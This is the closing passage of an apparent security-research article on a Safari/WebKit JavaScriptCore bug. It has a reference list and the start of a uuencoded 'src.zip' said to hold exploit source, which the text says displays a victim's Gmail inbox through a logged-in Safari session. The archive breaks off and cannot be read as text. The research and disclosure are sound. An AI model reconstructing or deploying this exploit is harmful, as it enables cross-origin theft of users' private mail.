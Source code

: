 Included is a version of the exploit that does this and displays the
"users" current gmail inbox. For reasons that should be clear by now this
does require a valid gmail session in Safari ;)


--[ 8 - References

[1] http://www.zerodayinitiative.com/advisories/ZDI-16-485/
[2] https://webkit.org/blog/3362/introducing-the-webkit-ftl-jit/
[3] http://trac.webkit.org/wiki/JavaScriptCore
[4] http://www.ecma-international.org/
ecma-262/6.0/#sec-ecmascript-data-types-and-values
[5] http://www.ecma-international.org/ecma-262/6.0/#sec-objects
[6] https://en.wikipedia.org/wiki/Double-precision_floating-point_format
[7] http://www.ecma-international.org/
ecma-262/6.0/#sec-array-exotic-objects
[8] http://www.ecma-international.org/
ecma-262/6.0/#sec-ecmascript-standard-built-in-objects
[9] https://developer.mozilla.org/en-US/docs/Web/JavaScript/
Reference/Global_Objects/Array/slice).
[10] https://github.com/WebKit/webkit/
blob/320b1fc3f6f47a31b6ccb4578bcea56c32c9e10b/Source/JavaScriptCore/runtime
/ArrayPrototype.cpp#L848
[11] https://developer.mozilla.org/en-US/docs/Web/
JavaScript/Reference/Global_Objects/Symbol/species
[12] http://www.ecma-international.org/ecma-262/6.0/#sec-type-conversion
[13] https://bugzilla.mozilla.org/show_bug.cgi?id=735104
[14] https://bugzilla.mozilla.org/show_bug.cgi?id=983344
[15] https://bugs.chromium.org/p/chromium/issues/detail?id=554946
[16] https://www.gnu.org/software/guile/manual/html_node/
Conservative-GC.html
[17] http://www.ecma-international.org/
ecma-262/6.0/#sec-ecmascript-language-types-number-type
[18] http://www.ecma-international.org/ecma-262/6.0/#sec-typedarray-objects
[19] https://developers.google.com/v8/design#fast-property-access
[20] http://www.ecma-international.org/
ecma-262/6.0/#sec-operations-on-objects
[21] http://www.ecma-international.org/ecma-262/6.0/
#sec-ordinary-object-internal-methods-and-internal-slots-delete-p
[22] https://trac.webkit.org/wiki/WebKit2
[23] https://www.chromium.org/developers/design-documents/site-isolation


--[ 9 - Source code

begin 644 src.zip
M4$L#!`H``````%&N1DD````````````````$`!P`<W)C+U54"0`#":OV5Q6K
M]E=U>`L``03U`0``!%````!02P,$%`````@`%ZY&2;A,.B1W`P``)@D```X`
M'`!S<F,O96UA:6PN:'1M;%54"0`#G:KV5PFK]E=U>`L``03U`0``!%````"-
M5E%OVS80?L^ON'H/DE9;2H:B*&([F)%D78:U*9H@;9$%`2V=;082J9)4;*'M
M?]^1LA39L=7J11)Y]]WW'7E'CEZ<79Y>?_EP#@N3I2<'H_J%+#DY`!AI4Z9H
MOP"F,BGAF_L$F$EA!C.6\;0\ADP*J7,6X]#-_K".T=K3@<2*YP:TBL>]PO!4
MAP^Z=T(F;OQDVX0+\_I5MTF^%%L&3Q85VUDA8L.E@%P1GI_I>="0!TAD7&0H
M3&A%A5P(5->X,O!R#&0)+\'[3WBU&O>*(CCCFDU3U&`6")IE.)"*SSF%D"F/
M2\J)HBFN0:%(4*&BV#)&K8&)!'0QU?BUH*!I62/.T,0+K.83KO.4E15ZH5%I
MF&>,I\#%5*Z`SX"M!S1!6F6XXMKH<%.N@WQ'9GY;+WG[+[B^*5)2:D7X07O:
M/E6>>K>#._CGZA0>B8#%$]+`8^,6PF0JE>%BW@N&&^X*3:'$T]@Z;6NA5S2;
M.V499E*59,Z2:*FX01LXXX8_8MAXT/+ZA-_\/S(%#WJU4#`&@4OX_.[?OXW)
M/]I\:K/;=)(DUIS12\Y\-]2B7*O]W:K=A*.$:\-$C/`G]&@K-&BAD5>&_.:4
MO*V(3_$J?:'5=V'WL4_C?@/1A\/5'X?!;B+=-'Y.HMK^YRN,3ZDZ:3MW46H1
M>KV/T%4#6-B]M4;=)K8S;!=-@J.%+R]=\7QPM=/%=">^Y7VTE_>.",]8[V'Q
MR\0[*>\![\.;7Z+<3;:#IBTU:>M,H:>K9C25,D4F(&9IB@ED]X7@MKA9.HEM
M<PI#&`8-P%J.J\P=4IH]/`WZ<'MTUXY=J?$&G8_7]G!E$<H<A>^]/;_V^N`M
MJ`#T<1391A?.I9Q3SXEEYOZC(CJ,?G/MD$QG+-782F8%IJGU/NL'"G4NA49:
MKLJJ'K`]?[BYQH8I<T'M>T7&M1D=$#1P.?,]:W)S<?[I_FQR/1E[P:8SQ=[O
M6AU51/PI1,O=-NAV[/$8!D?P_7L+TPWMZ=I_47IH<8VD0\$H%AM(F&%P[&^W